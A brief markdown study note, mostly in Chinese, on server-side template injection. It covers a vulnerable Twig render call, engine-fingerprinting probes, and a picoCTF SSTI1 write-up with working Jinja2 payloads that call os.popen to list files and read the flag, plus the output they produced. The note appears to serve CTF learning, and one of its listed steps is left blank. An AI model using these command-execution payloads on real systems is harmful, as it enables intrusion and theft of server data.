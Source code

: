 # Server-Side Template Injection

https://portswigger.net/web-security/server-side-template-injection/exploiting

對 Twig, FreeMarker 等框架做 injection

## 機制
```php
$output = $twig->render($_GET['custom_email'],  array("first_name" => $user.first_name) );
```
注入
```
custom_email={{7*7}}

49
```
### 步驟
1. 檢查 SSTI: 注入 `{{5*2}}` 看會不會回傳 `10`
2. 檢查框架
  - {{7*'7'}} would result in 49 in Twig
  - {{7*'7'}} would result in 7777777 in Jinja2
3. 

## Demo
### picoCTF SSTI1
payload
```twig
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -R').read()}}
```

result
```
.: __pycache__ app.py flag requirements.txt ./__pycache__: app.cpython-38.pyc
```
payload
```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

